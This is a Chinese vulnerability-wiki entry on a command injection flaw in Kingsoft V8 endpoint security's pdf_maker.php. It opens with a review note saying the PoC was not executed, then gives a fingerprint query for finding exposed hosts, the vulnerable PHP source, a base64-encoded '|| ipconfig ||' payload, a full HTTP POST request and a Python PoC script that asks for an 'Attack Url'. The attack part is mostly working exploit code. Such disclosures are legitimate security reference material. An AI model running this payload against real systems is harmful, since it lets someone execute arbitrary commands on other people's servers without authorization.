



# 金山 V8 终端安全系统 pdf_maker.php 命令执行漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：金山V8终端安全 pdf_maker.php
- 本文讨论：base64 url/fileName拼接wkhtmltopdf/批处理
- 版本、权限与配置前提：Windows、不同Apache版本走bat或system，API会话要求未明
- 资料类型：Windows PDF转换命令注入源码及PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- base64是编码非加密；请求带Cookie但脚本无，需权限对照
- Apache&gt;=2.4分支exec无输出返回，Windows+200检测可能漏报，不能阴性即无漏洞
- fileName=xxx解码为不明确字节，未解释有效文件名；服务路径依赖
- 源码注释保留会话标识，精确V8构建和补丁缺失
- 已落实的文本修订：“base64加密”改为“base64编码”；HTTP 报文围栏改为 http。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 文中写入/上传步骤会创建或覆盖目标文件；须先核对服务账户写权限、保存路径和脚本解析条件，验证后按原路径核查残留

### 待核与来源

- 包含文件鉴权、服务权限、两Apache分支响应与版本待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

金山 V8 终端安全系统 pdf_maker.php 存在命令执行漏洞，由于没有过滤危险字符，导致构造特殊字符即可进行命令拼接执行任意命令

## 漏洞影响

```
金山 V8 终端安全系统
```

## 网络测绘

```
app="猎鹰安全-金山V8+终端安全系统"
```

## 漏洞复现


存在漏洞的文件为


```plain
Kingsoft\Security Manager\SystemCenter\Console\inter\pdf_maker.php
```


```php
<?php
require_once (dirname(__FILE__)."\\common\\HTTPrequest_SCpost.php");
/*
{
   "kptl" :
{
"set_exportpdf_cmd" :
    {
    "url" : "http://172.18.254.146/report/system/main.php?userSession=5784727B-7AEA-4EFE-B0CB-DDD6DA1CABD3&guid=1AC380D9-                580C-49A8-B6EC-787CF50FA928&VHierarchyID=ADMIN",
    "fileName":"test.pdf"
    }
}
*/
	
	
	//$post = file_get_contents("php://input");
	
	/*
	$post = array("kptl"=>
			array("set_exportpdf_cmd"=>array(
				"url"=>"http://172.18.254.146/report/system/main.php?userSession=5784727B-7AEA-4EFE-B0CB-DDD6DA1CABD3&guid=1AC380D9-580C-49A8-B6EC-787CF50FA928&VHierarchyID=ADMIN",
				"fileName"=>"test1234.pdf"
				)
			));
			*/
			
	
			
	
	

	$url = $_POST["url"];
	$fileName =  $_POST["fileName"];
	$batName=$fileName;
	if ($url == null || $fileName == null)
	{
		$return["nResult"] = __LINE__;
		echo json_encode($return,JSON_UNESCAPED_UNICODE);
		return ;
	}
	
	$url = base64_decode($url);
	$nameStr = base64_decode($fileName).date("Y-m-d").".pdf";
	$fileName="..\\htmltopdf\\".$nameStr;

	system('mkdir ..\\htmltopdf');

	
	$cmd = '..\\..\\wkhtmltopdf.exe "'.$url.'" '.$fileName;
	if (getApacheVersion()>=24) { //apache 2.4 php 7 版本 只能在  bat中运行
		$cmd =" del ".$fileName;

		exec($cmd);
		$url_= str_replace('%','%%', $url);
		$cmd = '..\\..\\wkhtmltopdf.exe "'.$url_.'" '.$fileName;
		$batName ="exec_wkhtmltopdf.bat";
		$myfile = fopen($batName , "w");
		//$cmd =iconv("UTF-8", "gbk", $cmd );
		fwrite($myfile, $cmd);
		fclose($myfile);
		$cmd =$batName ;
		exec($cmd);
		$cmd =" del ".$batName;
		exec($cmd);
    }else
    {
	system($cmd);
    }
	// echo $url;
	$return = array("nResult" => "0","fileName" =>$nameStr,"url"=>$url);
	echo json_encode($return,JSON_UNESCAPED_UNICODE);
	
?>
```





这里传入 base64编码的拼接命令即可执行任意命令


```plain
"|| ipconfig || --base64--> url=IiB8fCBpcGNvbmZpZyB8fA==&fileName=xxx
```


```http
POST /inter/pdf_maker.php HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 45
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.128 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer:
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=noei1ghcv9rqgp58jf79991n04

url=IiB8fCBpcGNvbmZpZyB8fA%3D%3D&fileName=xxx
```





## 漏洞POC


```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle  : 金山 V8 终端安全系统 pdf_maker.php 命令执行漏洞                 \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/inter/pdf_maker.php"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = "url=IiB8fCBpcGNvbmZpZyB8fA==&fileName=xxx"
    try:
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        if "Windows" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 存在漏洞 ,执行 ipconfig, 响应为:\n{} \033[0m".format(target_url, response.text))
        else:
            print("\033[31m[x] 不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```





---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
